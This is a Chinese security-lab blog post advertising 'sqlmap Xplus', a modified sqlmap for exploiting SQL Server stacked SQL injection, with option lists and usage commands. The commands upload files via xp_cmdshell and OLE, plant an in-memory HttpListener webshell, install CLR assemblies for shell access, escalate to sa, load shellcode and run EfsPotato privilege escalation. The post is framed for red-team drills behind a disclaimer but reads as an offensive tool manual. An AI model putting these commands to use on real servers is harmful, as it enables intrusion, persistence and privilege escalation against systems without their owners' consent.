 #  sqlmap Xplus 基于 sqlmap，对经典的数据库注入漏洞利用工具进行二开！V1.6版本   
shine  无影安全实验室   2025-02-07 09:23  
  
免责声明：  
本篇文章仅用于技术交流，  
请勿利用文章内的相关技术从事非法测试  
，  
由于传播、利用本公众号无影安全  
实验室所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号无影安全实验室及作者不为此承担任何责任，一旦造成后果请自行承担！  
如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
  
  
朋友们现在只对常读和星标的公众号才展示大图推送，建议大家把"**无影安全实验室**  
"设为星标，这样更新文章也能第一时间推送！  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/3GHDOauYyUGbiaHXGx1ib5UxkKzSNtpMzY5tbbGdibG7icBSxlH783x1YTF0icAv8MWrmanB4u5qjyKfmYo1dDf7YbA/640?&wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
安全工具  
  
  
  
## 0x01 工具介绍  
  
sqlmapxplus在众多的地区性攻防演练中，SQL Server数据库堆叠注入仍有较高的爆洞频率，但因为一些常见的演练场景限制，如不出网、低权限、站库分离、终端防护、上线困难、权限维持繁琐等，仅一个--os-shell已经难满足我们的需求。  
  
sqlmapxplus 基于sqlmap，对经典的数据库漏洞利用工具进行二开，参考各种解决方法，增加MSSQL数据库注入的利用方式。目前已完成部分二开，包括ole、xpcmdshell两种文件上传、内存马上传、clr安装功能，能够实现mssql注入场景下的自动化注入内存马、自动化提权、自动化添加后门用户、自动化远程文件下载、自动化shellcode加载功能。  
1. **20250121更新说明**  
：更新工具的交互方式、 更新CLR注入利用方式  
  
1. 针对实际网络过程中dll传输损失导致clr安装失败的问题  
  
更新CLR落地加载功能（需要落地dll）和一键数据库CLR加载功能（无需落地dll）可根据场景选择合适的利用方法、  
  
临时增加 --check-file 选项判断dll文件是否成功落地目标主机、  
  
临时增加--check-clr 判断用户自定义函数是否在数据库中加载成功、  
  
需要注意的是 --check-file 和 --check-clr 选项存在判断不准确的问题，仅供参考  
  
实践过程中可能受url编码等影响，会导致注入利用失败  
  
1. 为什么使用上传过程中会出现dll放大的问题 转换为十六进制落地再还原导致的文件增大，如字母 A 经过十六进制 会转换 为 41，增大一倍，ole文件上传极限为20kb  
  
1. 自定义clr的问题（已完成） install-clr修改为，需要指定自定义的clr.dll路径，在提示框输入 用户自定义类名 用户自定义方法名 clr_shell模式下执行clr函数的方式修改为：用户自定义function 传入参数（已完成）。  
  
## 0x02 功能介绍  
  
```
File system access:
--xp-upload   upload file by xp_cmdshell 
--ole-upload  upload file by ole 
--check-file  use xp_fileexis check file exist 
--ole-del  	  delete file by ole 
--ole-read    read file content by ole 
--ole-move    move file by ole 
--ole-copy    copy file by ole 

Operating system access:
--enable-clr        enable clr 
--disable-clr       disable clr
--enable-ole        enable ole 
--check-clr   check user-defined functions in the database
--del-clr   delete user-defined functions in the database
--install-clr1      install clr1
--install-clr2      install clr2
--clr-shell         clr shell 
--to-sa             current db to sa
--sharpshell-upload1  sharpshell upload1
--sharpshell-upload2  sharpshell upload2 

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFES0h4zHG2LJaibAJSIP1GuWaREwXFu4okqwNfq7icOIYjgqZSz6vibIh4ACnw09CR0mQPXxibkkj8IDrg/640?wx_fmt=png&from=appmsg "")  
## 0x03 工具使用  
```
1、文件操作功能:

#开启 ole 利用功能
python sqlmap.py -r/-u xxx --enable-ole 

# 通过 ole 上传文件
python sqlmap.py -r/-u xxx --ole-upload local_file_path --file-dest remote_file_path

# 通过 ole 删除指定文件
python sqlmap.py -r/-u xxx --ole-del remote_file_path

# 通过 ole 阅读指定文件
python sqlmap.py -r/-u xxx --ole-read remote_file_path

# 通过 ole 移动并重命名文件
python sqlmap.py -r/-u xxx --ole-move remote_file_path1 --file-dest remote_file_path

# 通过 ole 复制文件
python sqlmap.py -r/-u xxx --ole-copy remote_file_path1 --file-dest remote_file_path2

# 通过 xp_cmdshell 上传文件
python sqlmap.py -r/-u xxx --xp-upload local_file_path --file-dest remote_file_path

# 使用 xp_fileexis 来检查文件是否存在
python sqlmap.py -r/-u xxx --check-file remote_file_path

# 通过 ole 实现的HttpListener内存马上传方式

# 默认上传至c:\Windows\tasks\listen.tmp.txt，需要以system权限运行
python sqlmap.py -r/-u xxx --sharpshell-upload2 

# 通过 xp_cmdshell实现的HttpListener内存马上传方式

# 默认上传至c:\Windows\tasks\listen.tmp.txt，需要以system权限运行
python sqlmap.py -r/-u xxx --sharpshell-upload1 
```  
  
```
2、CLR相关的功能:

# 开启 clr 利用功能
python sqlmap.py -r/-u xxx --enable-clr 

# 关闭 clr 利用功能
python sqlmap.py -r/-u xxx --disable-clr

# 查询数据库中是否存在用户自定义函数
python sqlmap.py -r/-u xxx --check-clr

# 进入 clr 安装模式
python sqlmap.py -r/-u xxx --install-clr

# 进入 clr-shell 命令交互模式
python sqlmap.py -r/-u xxx --clr-shell 

# 删除用户自定义函数
python sqlmap.py -r/-u xxx --del-clr

# clr dll 参考如下，更多其他dll请参考星球获取
# 存储过程类名Xplus，存储过程函数名需要注意大小写，分别为
# ClrExec、ClrEfsPotato、ClrDownload、ClrShellcodeLoader# 对应项目目录下单独功能的dll，分别为clrexec.dllclrefspotato.dllclrdownload.dllclrshellcodeloader.dl
```  
  
## 0x04 工具下载  
  
**点****击关注**  
**下方名片****进入公众号**  
  
**回复关键字【250207****】获取**  
**下载链接**  
  
  
